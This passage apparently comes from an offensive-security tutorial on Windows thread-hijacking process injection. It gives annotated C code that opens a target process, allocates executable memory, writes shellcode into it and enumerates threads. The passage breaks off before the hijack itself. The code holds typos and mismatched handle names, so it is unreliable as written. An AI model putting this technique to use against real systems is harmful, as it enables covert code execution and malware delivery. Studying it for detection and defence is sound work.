We will break down a basic thread hijacking script to identify each of the steps and explain in more depth below.

The first three steps outlined in this technique following the same common steps as normal process injection. These will not be explained, instead, you can find the documented source code below.

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

Once the initial steps are out of the way and our shellcode is written to memory we can move to step four. At step four, we need to begin the process of hijacking the process thread by identifying the thread ID. To identify the thread ID we need to use a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()`. These API calls will collectively loop through a snapshot of a process and extend capabilities to enumerate process information.

```
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {
```

At step five, we have gathered all the required information in the structure pointer and can open the target thread. To open the thread we will use `OpenThread` with the `THREADENTRY32` structure pointer.
